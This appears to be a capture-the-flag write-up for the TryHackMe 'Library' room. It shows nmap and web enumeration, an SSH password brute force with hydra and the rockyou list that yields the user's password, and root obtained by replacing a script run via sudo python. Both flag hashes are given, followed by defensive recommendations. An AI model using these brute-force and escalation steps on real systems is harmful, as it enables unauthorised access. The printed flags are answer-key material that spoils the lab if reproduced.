

# writeups 
Scope : https://tryhackme.com/room/bsidesgtlibrary
IP :10.10.82.141


1. Information Gathering

### Port scanning and Enumeration : nmap targeted
Command :`sudo nmap -n -p22,80 -sV -T5  10.10.82.141 -vv`

Result :
```
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web Enumeration :  index.html(main page)

Web banner grabing with *whatweb*
```
http://10.10.82.141/ [200 OK] Apache[2.4.18], 
Country[RESERVED][ZZ], 
HTML5, 
HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], 
IP[10.10.82.141], 
Title[Welcome to  Blog - Library Machine]
```


posible users leaking : `root, meliodas, anonymous`


comment section, don't work.


robots.txt
```
User-agent: rockyou 
Disallow: /
```

### Web dirlisting : dirsearch
```
[05:08:32] 200 -    2KB - /images/                                          
[05:08:32] 301 -  313B  - /images  ->  http://10.10.82.141/images/          
[05:08:33] 200 -    5KB - /index.html                                       
[05:09:07] 200 -   33B  - /robots.txt                                       
[05:09:09] 403 -  300B  - /server-status                                    
[05:09:10] 403 -  301B  - /server-status/ 
```

2. Vulnerability Analysis

- SSH weak password for user:*meliodas*
```
-> hydra -l meliodas -P ~/myFiles/rockyou.txt 10.10.82.141 ssh -t 40 -VV

[22][ssh] host: 10.10.82.141   login: meliodas   password: iloveyou1
1 of 1 target successfully completed, 1 valid password found

```
NOTICE: other users like *root* and *anonymous* are not vulnerable like that

- bak file privilege


3. Exploitation

- SSH weak password for user:*meliodas*


user.txt content:*flag1*
```
6d488cbb3f111d135722c33cb635f4ec
```

- bak file privilege

We can use this to have root privilege but let's look in the second image


The file cannot be edited by us, I mean *meliodas*, we connected via this user
so what we gonna is trying to bypass this one because the content of the file bak.py
don't very help us. here the content of bak.py below


Then right now we know we have all privilege if we use the comment path
```
/usr/bin/python* /home/meliodas/bak.py
```
so why if we delete the actual and we create a new one with what we need,
escalate privilege


root.txt content:*flag2*
```
e8c8c6c256c35515d1d344ee0488c617
```

END

3. Post Exploitation : NO

4. Report : Recommandations or best-practices

- Use strong password, if you can't create one just use a password manager
one really good called "Keepass 2", you can generate a password there, and
you can actually put an expiration date on it like that you will sure you don't
fear nothing

- Least privilege access, don't permit other users than root to delete root file,
only user with the right privilege can do it, users who don't do thing extremely urgent
like the IT departement don't allow them to have access with sudo

- On the webpage, or the blog use author name and username to make the security like
stronger, I mean the same name for posting, should be different from the one that guest
users are seeing
